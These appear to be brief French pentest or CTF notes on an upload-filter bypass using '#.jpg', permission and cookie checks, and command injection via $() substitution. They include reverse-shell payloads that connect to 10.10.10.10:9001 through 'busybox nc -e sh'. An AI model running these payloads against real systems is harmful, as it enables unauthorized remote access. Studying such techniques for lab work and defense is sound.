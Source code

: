 

Dans un url d'image ou autre du style http://test.com/image.jpg

on peut ajouter n'importe quoi apres en rajoutant un # du genre :

http://test.com/image.jpg#.php

Cela nous renverra vers le lien en ignorant le # et ce qu'il y a derrière.
Il peut donc y avoir une faille, on peut ajouter le # et mettre  #.jpg pour faire croire au serveur s'il est mal configurer que l'extention est en .jpg. Cela peut etre utile dans un formulaire d'upload pour upload un reverse shell.
Ansi cela permet de bypass la secu si celle-ci est mal configuré.


* Penser à regarder les droits des dossiers ! --> possibilité de supprimer/remplacer des fichiers dont on à pas les droits mais qui sont dans le dossier dont on à les droits


Regarder comment sont creer les cookies --> PHPSESSID


on peut executer des commande avec :
* $ (comamand) du genre $(id) == id 

et donc on peur faire ca avec un reverse shell nc 
Explication : La syntaxe `$()` en bash est utilisée pour exécuter une commande à l'intérieur d'une autre commande, puis utiliser la sortie de cette commande dans le contexte externe. Elle est également appelée "command substitution". 

Si cela affiche bien le resultat on peut trouver un bon payload pour exploit. On peut le faire avec la commande busybox qui fait juste la commande qui est apres (`pwd` = `busybox pwd`) soit par exemple : 
* $(busybox nc 10.10.10.10 9001 -e sh)
* & & nc 10.10.10.10 9001 -e sh

Tools --> depix to Depix to recover passwords from pixelized screenshots